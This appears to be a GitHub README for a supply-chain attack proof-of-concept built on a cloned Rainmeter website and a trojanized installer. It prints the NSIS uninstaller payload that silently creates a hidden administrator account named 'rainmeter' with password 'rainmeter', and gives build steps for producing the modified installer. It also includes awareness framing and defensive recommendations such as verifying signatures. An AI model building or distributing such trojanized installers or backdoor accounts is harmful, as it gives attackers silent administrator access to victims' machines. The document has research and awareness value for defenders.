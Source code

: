 # 💀 Rainfall Trap — Supply Chain Abuse via Cloned Site & Trojaned Uninstaller

> ⚠️ This repository demonstrates a security proof-of-concept (PoC) showcasing how a cloned open-source website and a trojanized installer can be used to silently gain administrator access on a target system.  
**This is for educational and awareness purposes only.**

---

## 📌 Overview

This project highlights the risks associated with downloading software from unofficial or spoofed websites, even when the project is open-source.  
It demonstrates how an attacker can:

- Clone a popular open-source project's website
- Modify the installer with malicious payloads (such as creating a hidden admin user)
- Replace the official download link with the trojanized version
- Distribute it under the guise of the original tool

The attack flow simulates how a user, tricked by a familiar interface, may unknowingly compromise their system.

---

## 🎯 Goals of This PoC

- Demonstrate trust abuse in open-source ecosystems
- Show how unverified binaries can be used for privilege escalation
- Raise awareness about distribution chain manipulation
- Encourage safer download habits and package verification

---

## 🧪 Attack Methodology

### 1. ✅ Cloning the Original Site

- Downloaded and replicated the static files of the official **[Rainmeter](https://www.rainmeter.net/)** website.
- Minor changes were made to only one file: **the download button**, which now links to a **malicious installer** hosted by the attacker.

### 2. ⚙️ Modifying the Installer

- Used **NSIS** to alter the uninstall section of the original Rainmeter installer.
- Embedded malicious logic that silently:
  - Creates a new user account named `rainmeter`
  - Sets its password to `rainmeter`
  - Adds it to the `Administrators` group

```nsis
ExecWait 'net user rainmeter rainmeter /add'
ExecWait 'net localgroup Administrators rainmeter /add'
````

This code is executed during the uninstallation (or silently embedded at any point) and **does not require user consent, because uninstallers run with administrator privileges**.

### 3. 🧪 Optional Persistence (Ethically Omitted)

A scheduled task to launch a webpage or command was considered but not implemented in this PoC to keep it within responsible disclosure limits.

---

## 💥 Impact

* **Silent privilege escalation**: A hidden administrator account is created on the target machine.
* **Abuse of user trust**: The victim installs what appears to be a legitimate open-source tool.
* **Supply chain compromise**: This scenario mirrors real-world techniques where attackers tamper with software distribution pipelines.

---
## 🛡️ Recommendations

* **Never download software from unverified or cloned sources**
* **Always verify digital signatures** or hashes when available
* Prefer official repositories (e.g., GitHub releases, Chocolatey, Winget)
* Use browser security features (Safe Browsing, HTTPS enforcement)
* Security teams should monitor for abnormal user creation or installer behavior

## 🎥 Proof of Concept (PoC)

A full demonstration video showcasing the modified uninstaller behavior and user creation.

This video walks through:
- How the modified installer/uninstaller works.
- The creation of a hidden admin user named `rainmeter`.
- The potential real-world impact of compromised open-source software distribution.
---
https://github.com/user-attachments/assets/27b0b714-dc37-4951-9b1f-75408607afca

## 🛠️ Building Rainfall Trap Installer

### 1. Get the Source Code

Use Git to clone this modified repository:

```bash
git clone https://github.com/garvthakkar17/rainfall_trap.git
````

Alternatively, download the contents as a ZIP archive directly from GitHub.

---

### 2. Prerequisites

* Install [NSIS (Nullsoft Scriptable Install System)](https://nsis.sourceforge.io/Download) version 3 or later.
* Make sure all required dependencies for building Rainmeter are available (e.g., Visual Studio, CMake if modifying Rainmeter binaries — **not required for NSIS-only payload change**).

---

### 3. Building the Installer Manually

Navigate to the `Build` directory in the cloned repo.

To compile a **pre-release version**, use:

```bash
Build.bat pre 1.2.3.4
```

To compile a **release version**, use:

```bash
Build.bat release 1.2.3.4
```

> 🔍 **Note**: Replace `1.2.3.4` with any custom version string you want for your installer.

If you encounter any `"not found"` errors during the build:

* Ensure the paths defined at the top of the `Build.bat` file correctly reflect your local environment and NSIS installation path.
* Check that the necessary folders like `Installer`, `Build`, and `Installers\PreRelease` or `Installers\Release` exist.

---
## 🚨 Responsible Use

This repository was created strictly for ethical hacking demonstrations and research.
**Do not deploy these methods in real-world environments without permission.**

> 🧑‍💻 Research by a cybersecurity practitioner focused on improving awareness of software supply chain attacks.

---
